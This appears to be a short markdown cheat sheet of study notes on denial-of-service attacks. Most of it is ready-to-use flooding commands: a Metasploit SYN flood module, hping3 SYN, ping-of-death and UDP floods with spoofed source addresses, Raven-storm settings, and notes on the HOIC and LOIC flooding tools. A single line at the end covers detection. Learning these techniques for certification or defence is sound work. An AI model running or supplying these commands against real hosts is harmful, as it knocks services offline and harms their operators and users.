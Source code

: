# Denial of service

## Perform DoS and DDoS attacks using various Techniques

- Perform a DoS attack (SYN flooding) on a target host using Metasploit
use auxiliary/dos/tcp/synflood

- Perform a DoS attack on a target host using hping3
SYN FLOOD: hping3 -S (Target IP Address) -a (Spoofable IP Address) -p 22 --flood
in wireshark Statistics -> I/O Graphs
PoD: hping3 -d 65538-S -p 21 --flood (Target IP Address)
UDP flood: hping3 -2 -p 139 --flood (Target IP Address)
Other UDP services:
  - SNMPv2 (Port 161)
  - QOTD (Port 17)
  - RPC (Port 135)
  - SSDP (Port 1900)
  - CLDAP (Port 389)
  - TFTP (Port 69)
  - NetBIOS (Port 137,138,139)
  - NTP (Port 123)
  - Quake Network Protocol (Port 26000)
  - VoIP (Port 5060)

- Perform a DoS attack using Raven-storm
rst
l4
ip <target ip>
port <target port>
threads <threads number>
run

- Perform a DDoS attack using HOIC
windows software
256 target URLs simultaneously. It sends HTTP, POST, and GET requests
high-speed multi-threaded HTTP Flood

- Perform a DDoS attack using LOIC
windows software
flood the server with TCP packets, UDP packets, or HTTP

## Detect and protect against DoS and DDoS attacks

- Detect and protect against DDoS attacks using Anti DDoS Guardian
windows software
